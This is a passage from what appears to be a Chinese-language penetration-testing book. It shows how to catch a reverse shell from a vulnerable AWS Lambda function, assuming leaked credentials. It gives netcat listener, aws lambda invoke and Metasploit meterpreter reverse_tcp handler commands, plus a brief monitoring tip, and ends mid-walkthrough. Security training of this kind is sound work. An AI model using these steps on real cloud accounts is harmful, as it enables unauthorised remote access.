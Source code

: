 好的，所以我们之前在 AWS 控制台的 GUI 中完成了所有这些操作，这很有趣也很酷。让我们快速看一下更实用的方法 - 使用 AWS CLI。我们将假设凭据已被泄露，并且该函数已经准备好供我们使用。

## 使用 AWS CLI 调用

现在我们的函数已经在环境中，让我们看看如何只使用托管在我们的公共 EC2 实例上的 Kali Linux 机器来实现持久性。首先，确保您通过 SSH 登录到 Kali，并通过在命令的末尾加上`&`来在后台运行`netcat`。在后台运行命令可以让您仍然使用终端：

```
$ nc -lvp 1337 &
```

现在你的监听器已经在后台设置好并准备就绪。在执行连接之前，我们需要配置到 AWS 环境。在终端中键入`aws configure`，确保使用我们在之前章节中使用的 ID 和密钥。一旦设置到环境中，运行以下命令来启动 shell：

```
$ aws lambda invoke --function-name <<Lambda ARN>> --invocation-type RequestResponse outfile.txt --region <<aws region>>
```

重要提示

您可能需要在您的 Kali 实例上安装 AWS CLI。要安装 AWS CLI，请运行以下命令：`$ apt-get install awscli -y`。

正如你所看到的，在 Lambda 中获取 shell 可能很有趣，但对于毫无戒心的企业来说也可能很危险。对抗这种情况的一个很好的方法是在网络中部署监控解决方案 - 诸如网络预防和检测系统之类的设备，这些设备具有检测网络中的异常流量的出口规则，以及检查进入的数据包的入口规则。在 AWS 方面，**CloudTrail**是在尝试检测与 AWS 环境之间的流量时使用的一个很好的资源。

在本书中我们已经谈论了很多关于 Metasploit，现在让我们看看如何在 Lambda 中使用 Metasploit。我们将看看如何利用 Metasploit 中的处理程序来捕获会话。

重要提示

会话是在 Metasploit 中被挂钩的连接。

## 使用 Metasploit 和 Lambda 玩得开心

现在我们了解了如何使用 Python 和 Lambda 创建 shell 脚本，让我们看看如何使用 Metasploit 来获得类似的结果！在这个练习中，我们可以使用之前的相同有效载荷；但是，如果您重新启动了实例或者使用了不同的 EC2，您可能需要更改您的实例 DNS 名称。

在开始之前，让我们讨论一下我们将要做什么；记住，最好在执行计划之前制定计划，即使这个计划很小！例如，我们需要使用`netcat`建立连接。我们在设置 Lambda 函数的反向 shell 时学习了`netcat`。

由于我们之前在*第三章**，探索渗透测试和 AWS*中使用过 Metasploit，所以不需要讨论 Metasploit 或如何启动它。但是，我们需要确保使用正确的有效载荷。以下步骤将展示如何使用 Python 有效载荷设置处理程序，以捕获我们的脆弱 Lambda 函数的连接。

启动 Metasploit 并输入以下命令开始设置处理程序：

```
$ use exploit/multi/handler 
$ set payload python/meterpreter/reverse_tcp
$ set lhost <<EC2 instance DNS>>
$ set lport 1337
$ run 
```

一旦您开始运行处理程序，您的处理程序将进入`netcat`工作，除了我们使用 Meterpreter 来解释我们的 shell 和`netcat`连接中使用的默认 Bash shell 之外。Meterpreter shell 比`netcat`连接更强大，因为它们提供了大量的模块，您可以在 Meterpreter shell 中加载这些模块。我们将在*第九章**，使用 Metasploit 进行真实渗透测试和更多内容*中了解更多。

现在我们的监听器正在运行，回到您的易受攻击的 Lambda 函数并测试它，尝试连接到您的 Meterpreter 监听器。如果一切顺利，您将拥有一个分段器，然后是一个会话。您的会话是与目标的交互式 shell：
